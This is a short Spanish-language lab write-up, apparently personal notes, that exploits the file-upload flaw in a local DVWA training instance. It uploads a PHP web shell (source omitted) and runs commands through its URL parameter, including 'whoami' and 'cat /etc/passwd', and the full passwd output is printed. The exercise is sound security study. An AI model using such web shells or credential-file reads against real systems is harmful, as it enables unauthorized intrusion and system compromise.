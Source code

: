 ## Subida de ficheros

Vamos a crear una consola de comandos mediante php y usaremos la url para introducir los comandos, primero, crearemos dicha consola y la subiremos:

# PONER EL CONTENIDO DE consola.php CUANDO SE SUBA A GITHUB, WINDWOS DEFENDER ME BLOQUEA MI ARCHIVO dvwa.md POR ELLO

Nos dice que se ha subido correctamente: `../../hackable/uploads/consola.php succesfully uploaded!`

Y ya podremos intrucir comandos directamente desde la url:

```
http://localhost/DVWA/hackable/uploads/consola.php?cmd=whoami


www-data 
```

```
http://localhost/DVWA/hackable/uploads/consola.php?cmd=cat /etc/passwd


root:x:0:0:root:/root:/usr/bin/zsh daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin _apt:x:42:65534::/nonexistent:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin _galera:x:100:65534::/nonexistent:/usr/sbin/nologin mysql:x:101:102:MariaDB Server,,,:/nonexistent:/bin/false tss:x:102:103:TPM software stack,,,:/var/lib/tpm:/bin/false strongswan:x:103:65534::/var/lib/strongswan:/usr/sbin/nologin systemd-timesync:x:992:992:systemd Time Synchronization:/:/usr/sbin/nologin rwhod:x:104:65534::/var/spool/rwho:/usr/sbin/nologin _gophish:x:105:105::/var/lib/gophish:/usr/sbin/nologin iodine:x:106:65534::/run/iodine:/usr/sbin/nologin messagebus:x:107:106::/nonexistent:/usr/sbin/nologin tcpdump:x:108:107::/nonexistent:/usr/sbin/nologin miredo:x:109:65534::/var/run/miredo:/usr/sbin/nologin _rpc:x:110:65534::/run/rpcbind:/usr/sbin/nologin Debian-snmp:x:111:109::/var/lib/snmp:/bin/false redis:x:112:111::/var/lib/redis:/usr/sbin/nologin usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin mosquitto:x:114:114::/var/lib/mosquitto:/usr/sbin/nologin redsocks:x:115:115::/var/run/redsocks:/usr/sbin/nologin stunnel4:x:991:991:stunnel service system account:/var/run/stunnel4:/usr/sbin/nologin sshd:x:116:65534::/run/sshd:/usr/sbin/nologin dnsmasq:x:999:65534:dnsmasq:/var/lib/misc:/usr/sbin/nologin sslh:x:117:118::/nonexistent:/usr/sbin/nologin postgres:x:118:119:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash avahi:x:119:120:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin _gvm:x:120:122::/var/lib/openvas:/usr/sbin/nologin speech-dispatcher:x:121:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false inetsim:x:122:124::/var/lib/inetsim:/usr/sbin/nologin geoclue:x:123:125::/var/lib/geoclue:/usr/sbin/nologin lightdm:x:124:126:Light Display Manager:/var/lib/lightdm:/bin/false statd:x:125:65534::/var/lib/nfs:/usr/sbin/nologin saned:x:126:128::/var/lib/saned:/usr/sbin/nologin polkitd:x:989:989:User for polkitd:/:/usr/sbin/nologin rtkit:x:127:129:RealtimeKit,,,:/proc:/usr/sbin/nologin colord:x:128:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin nm-openvpn:x:129:131:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin nm-openconnect:x:130:132:NetworkManager OpenConnect plugin,,,:/var/lib/NetworkManager:/usr/sbin/nologin kali:x:1000:1000:kali,,,:/home/kali:/usr/bin/zsh
```
